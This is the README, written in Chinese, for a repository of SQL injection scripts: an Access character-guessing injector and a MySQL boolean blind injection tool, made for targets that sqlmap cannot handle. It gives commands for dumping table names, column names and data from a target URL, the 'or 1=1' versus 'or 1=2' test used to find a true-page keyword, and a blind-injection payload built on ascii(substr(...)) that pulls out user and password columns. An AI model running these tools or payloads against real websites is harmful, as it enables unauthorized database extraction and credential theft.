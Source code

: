 # 1.写这些脚本的目的

解决sqlmap不能跑的站点，并且手工注入又会消耗大量的时间和精力的情况。

# 2.用法

## 2.1 ACCESS-Injection

Blog ： http://admintony.com/2017/12/28/ACCESS注入之逐字猜解法-Python工具/
```bash
python3 inj.py -u Url --tables --keyword=true_page_keyword [--thread=20] #爆表名,--thread参数可选，默认为10

python3 inj.py -u Url -T table_name --columns --keyword=true_page_keyword [--thread=20] #爆表名

python3 inj.py -u Url -T table_name -C col_name1,col_name2... --dump --keyword=keyword[--thread=20] #爆数据
```
## 2.2 MYSQL-Bind-injection

Blog ： http://admintony.com/2017/12/16/基于布尔盲注的脚本编写实例/

1>第一处

```python
#Target URL
url = "http://targetURL//index.php?a=index&f=ilist&p="
#keyword 用于判断页面是否正确
keyword ="keyword"
```

将代码开头的URL和keyword修改

**注意：**

keyword 为http://targetURL/index.php?p=-1 or 1=1 和 http://targetURL/index.php?p=-1 or 1=2 页面中只出现在前者页面而不出现在后者页面中的值

URL 中存在注入的参数放到最后，并且不跟参数值，程序会自动加上参数值

2>第二处：需要使用什么功能就把什么功能的代码注释取消即可，至于该改的table_name,column_name自己改一下
```python
    info = Info()
    #注入当前数据库的用户
    #info.user()
    #注入数据库的版本
    #info.version()
    #注入当前数据库的名字
    #info.database()
    #注入表名
    #run()
    #注入列名
    run_column("shi_user")
    #注入数据
    #columnL = ["uid","pwd"]
    #run_value("pw_user",*columnL)```
    
3>爆列中数据的时候，列名请填写两个，在程序写死了，如果需要多个列名请修改第334行代码：

e.g.三个列
```python
payload = "-1 or ascii(substr((select concat(%s,0x7c,%s,0x7c,%s) from %s limit %s,1),%s,1))=%s" \
% (self.column[0],self.column[1],self.column[2],self.table, self.i, x, n)
```
# 3.目录

```html
###########
├── Readme.md               // 帮助文档 
├── ACCESS-Injection        // ACCESS的逐字猜解法脚本
│   ├── injection.py        //主程序
│   ├── table.txt           //常用表名，来自sqlmap
│   ├── column.txt          //常用列名，来自sqlmap
├── MYSQL-Bind-injection    //mysql基于布尔盲注的脚本
│   ├── injection.py        //主程序

```
